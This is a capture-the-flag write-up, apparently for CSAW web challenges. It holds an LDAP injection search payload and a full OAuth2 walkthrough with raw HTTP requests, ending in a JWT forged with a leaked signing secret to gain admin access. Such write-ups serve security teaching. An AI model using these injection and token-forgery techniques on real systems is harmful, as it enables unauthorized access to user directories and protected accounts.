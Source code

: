 <a name="ldab"/>
# Ldab

Difficulty: **★☆☆☆☆**

Sovled: **432 / 1448**

Tag: **Blackbox, Ldap injection**

Link: **http://web.chal.csaw.io:8080**

**Idea**
- Search for list all of all users and groups 

**Solution**
1. Payload ldap injection [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection)
2. Request `/index.php?search=*)(uid=*))(|(uid=*`
3. Flag `flag{ld4p_inj3ction_i5_a_th1ng}`

<a name="sso"/>
# SSO

Difficulty: **★★★☆☆**

Sovled: **210 / 1448**

Tag: **Blackbox, oauth2, sigle sign on, JWT token**

Link: **web.chal.csaw.io:9000**

**Idea**
- Use oauth 2.0 for authentication and request the resources
- Crack signature jwt for get flag

**Solution**
1. Get code authorization: `/oauth2/authorize`
 - response_type: `code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - state: `http://web.chal.csaw.io:9000/protected`
 - scopy: `http://web.chal.csaw.io:9000/protected`
 - client_id: `admin`
 - client_secret: `admin`

*Request*
```
POST /oauth2/authorize  HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 228

response_type=code&redirect_uri=http://web.chal.csaw.io:9000/protected&state=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&scope=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&client_id=admin&client_secret=admin
```
*Response*
```
http://web.chal.csaw.io:9000/protected?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&amp;state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected
```

2. Get token for authentication: `/oauth2/token`:
 - code: receive from request 1 
 - state: `http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected`
 - grant_type: `authorization_code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - client_secret: `admin`
 - client_id: `admin`

*Request*
```
POST /oauth2/token HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 411

code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected&grant_type=authorization_code&redirect_uri=http://web.chal.csaw.io:9000/protected&client_secret=ufoundme!&client_id=admin
```

*Response*
```
{"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzA2Mzg3MCwiZXhwIjoxNTM3MDY0NDcwfQ.4Vlaf8qsPoPyNNIX6CNVgn_w1zHbnVJEg5dJQZmMeGk"}
```

*Raw token*
```
{"alg":"HS256","typ":"JWT"}{"type":"user","secret":"ufoundme!","iat":1537063870,"exp":1537064470} + signature`
``` 

3. Crack signature JWT, change token 
 - Crack online on https://jwt.io/
![Crack JWT token](./resource_web/web-sso.png)

4. Get flag 

```
GET /protected HTTP/1.1
Host: web.chal.csaw.io:9000
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwNjM4NzAsImV4cCI6MTUzNzA2NDQ3MH0.0nrhvscHLcDxopIVt6FzV8mn2KhGI4CbEMfOsrHvnJ0
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 369
```

5. Flag: `flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}`

6. Code python for solve challenge: [here](./resource_web/sso.py)

```
$ Request to oauth2/authorize ...
> Code = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MTM2NTQ2LCJleHAiOjE1MzcxMzcxNDZ9.kV123Uzgg4H7i_DxNg6u6QCBiFP2y3sMFNzxZhXtrQw
$ Request to oauth2/token ...
> Token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzEzNjU0OCwiZXhwIjoxNTM3MTM3MTQ4fQ.inn4CGJOX4ID6kab4YdK70ZKqBwV0Be92s6dp2yAUvA
$ Crack signature and change data ...
> New token = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcxMzY1NDgsImV4cCI6MTUzNzEzNzE0OH0.60wi5F1gDUUqNLCKLPDAiENUBRJWhFEzE1xeFqc8RrQ
$ Request to /protected ...
flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}
```
